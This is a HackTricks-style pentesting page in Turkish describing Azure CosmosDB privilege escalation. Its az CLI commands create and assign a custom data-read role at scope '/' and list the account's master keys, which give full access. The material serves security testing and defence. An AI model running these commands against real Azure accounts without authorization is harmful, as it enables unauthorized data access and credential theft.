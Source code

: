 # Az - CosmosDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## CosmosDB Privesc
SQL Veritabanı hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../az-services/az-cosmosDB.md" %}
[az-cosmosDB.md](../az-services/az-cosmosDB.md)
{% endcontent-ref %}

### ("Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/write", "Microsoft.DocumentDB/databaseAccounts/sqlRoleDefinitions/read") & ("Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/write", "Microsoft.DocumentDB/databaseAccounts/sqlRoleAssignments/read")

Bu izinlerle, bir kullanıcıya sorgu çalıştırma ve veritabanına bağlanma izinleri vererek ayrıcalıkları artırabilirsiniz. Öncelikle gerekli izinleri ve kapsamları veren bir tanım rolü oluşturulur.

{% code overflow="wrap" %}
```bash
az cosmosdb sql role definition create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--body '{
"Id": "<Random-Unique-ID>", # For example 12345678-1234-1234-1234-123456789az
"RoleName": "CustomReadRole",
"Type": "CustomRole",
"AssignableScopes": [
"/subscriptions/<subscription_id>/resourceGroups/sqldatabase/providers/Microsoft.DocumentDB/databaseAccounts/<account_name>"
],
"Permissions": [
{
"DataActions": [
"Microsoft.DocumentDB/databaseAccounts/readMetadata",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/items/read",
"Microsoft.DocumentDB/databaseAccounts/sqlDatabases/containers/*"
]
}
]
}'
```
{% endcode %}

Bundan sonra tanımın ataması bir kullanıcıya verilir. Bu kullanıcı, sorguları yürütmek için DefaultAzureCredential() bağlantı yöntemini kullanabilir.

{% code overflow="wrap" %}
```bash
az cosmosdb sql role assignment create \
--account-name <account_name> \
--resource-group <resource_group_name> \
--role-definition-id <Random-Unique-ID-used-in-definition> \
--principal-id <principal_id-togive-perms> \
--scope "/"
```
{% endcode %}

### "Microsoft.DocumentDB/databaseAccounts/listKeys/action"
Bu izinle, bir Azure Cosmos DB hesabı için birincil ve ikincil anahtarları alabilirsiniz. Bu anahtarlar, veritabanı hesabına ve kaynaklarına tam erişim sağlar, veri okuma, yazma ve yapılandırma değişiklikleri gibi işlemleri mümkün kılar.

{% code overflow="wrap" %}
```bash
az cosmosdb keys list \
--name <account_name> \
--resource-group <resource_group_name>

```
{% endcode %}


{{#include ../../../banners/hacktricks-training.md}}
